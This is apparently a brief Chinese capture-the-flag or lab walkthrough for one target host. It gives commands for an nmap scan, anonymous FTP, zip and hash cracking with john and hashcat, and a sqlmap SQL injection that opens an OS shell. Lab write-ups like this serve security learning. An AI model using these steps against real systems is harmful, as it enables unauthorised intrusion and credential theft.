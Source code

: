 1. nmap扫描
> map -A -sV 10.129.194.163
> 22 ssh 21 ftp 80 http

2. 匿名访问ftp获得备份文件 anonymous
3. 利用zip2john 和 john解密zip,并找到web页面的登录密码
4. 解密hash
> hashcat -a 0 -m 0 test.txt /usr/share/wordlists/rockyou.txt
5. 利用sql注入和反弹shell获取webshell
> sqlmap -u "http://10.129.194.163/dashboard.php?search=f" --cookie="PHPSESSID=4h3a937f4hobqtlb4v0o3iposd" --os-shell

   
